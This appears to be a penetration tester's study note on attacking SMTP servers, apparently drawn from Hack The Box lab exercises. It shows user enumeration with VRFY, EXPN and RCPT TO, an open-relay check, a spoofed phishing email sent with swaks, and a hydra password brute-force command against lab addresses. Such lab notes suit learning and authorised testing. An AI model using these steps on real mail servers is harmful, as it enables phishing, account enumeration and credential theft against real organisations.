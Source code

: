Attacks: [[Open Relay]]
Port:
	25 (Unencrypted)
	465 (+TLS)
	587 (Encrypted [[STARTTLS]])

Usually uses [[STARTTLS]] to encrypt

## Anti-Spam
With [[ESMPT]]+[[SMTP-Auth]] 
# Misconfiguration
## Authentication
The SMTP server has different commands that can be used to enumerate valid usernames `VRFY`, `EXPN`, and `RCPT TO`.
### `VRFY`
This instructs the receiving SMTP server to check the validity of a particular email username. The server responds whether the user exists or not. This could be disabled.
```shell-session
$ telnet 10.10.110.20 25
...
220 parrot ESMTP Postfix (Debian/GNU)

VRFY root
252 2.0.0 root

VRFY www-data
252 2.0.0 www-data

VRFY new-user
550 5.1.1 <new-user>: Recipient address rejected: User unknown in local recipient table
```
### `EXPN`
Similar to `VRFY`, except that when used with a distribution list, it will list all users on that list. This can be a bigger problem than the `VRFY` command since sites often have an alias such as "all."
```shell-session
$ telnet 10.10.110.20 25
...
220 parrot ESMTP Postfix (Debian/GNU)

EXPN john
250 2.1.0 john@inlanefreight.htb

EXPN support-team
250 2.0.0 carol@inlanefreight.htb
250 2.1.5 elisa@inlanefreight.htb
```
### `RCPT TO`
This identifies the recipient of the email message.
```shell-session
$ telnet 10.10.110.20 25
...
220 parrot ESMTP Postfix (Debian/GNU)

MAIL FROM:test@htb.com
it is
250 2.1.0 test@htb.com... Sender ok

RCPT TO:kate
550 5.1.1 kate... User unknown

RCPT TO:john
250 2.1.5 john... Recipient ok
```
## Open Relay
1. Check if Open Relay is configured or not
```shell-session
$ nmap -p25 -Pn --script smtp-open-relay <IP>
...
PORT   STATE SERVICE
25/tcp open  smtp
|_smtp-open-relay: Server is an open relay (14/16 tests)
```
2. Use any mail client to connect to the mail server and send our email.
```shell-session
$ swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Company Notification' --body '<TEXT> http://mycustomphishinglink.com/' --server <IP>

=== Trying 10.10.11.213:25...
=== Connected to 10.10.11.213.
<-  220 mail.localdomain SMTP Mailer ready
 -> EHLO parrot
<-  250-mail.localdomain
<-  250-SIZE 33554432
<-  250-8BITMIME
<-  250-STARTTLS
<-  250-AUTH LOGIN PLAIN CRAM-MD5 CRAM-SHA1
<-  250 HELP
 -> MAIL FROM:<notifications@inlanefreight.com>
<-  250 OK
 -> RCPT TO:<employees@inlanefreight.com>
<-  250 OK
 -> DATA
<-  354 End data with <CR><LF>.<CR><LF>
 -> Date: Thu, 29 Oct 2020 01:36:06 -0400
 -> To: employees@inlanefreight.com
 -> From: notifications@inlanefreight.com
 -> Subject: Company Notification
 -> Message-Id: <20201029013606.775675@parrot>
 -> X-Mailer: swaks v20190914.0 jetmore.org/john/code/swaks/
 -> 
 -> <TEXT> http://mycustomphishinglink.com/
 -> 
 -> 
 -> .
<-  250 OK
 -> QUIT
<-  221 Bye
=== Connection closed with remote host.
```
## Dangerous setting
If SMTP server has this config
```
mynetworks = 0.0.0.0/0
```
It can send fake emails and thus initialize communication between multiple parties. Another attack possibility would be to spoof the email and read it.
### User enum
Request might timeout so increase timeout period
## Tools
- [[SMTP-user-enum]]
- [[O365spray]] (O365)
- [[MailSniper]] (O365)
- [[CredKing]] (Gmail/Okta)
- [[Hydra#SMB/FTP/SSH/POP3/SMTP|Hydra-SMTP]] (usually blocked, try custom tools)
```shell-session
$ hydra -l user@domain.com -P <PASSWORD.TXT> -f 10.10.110.20 smtp
```
- [[Evolution]]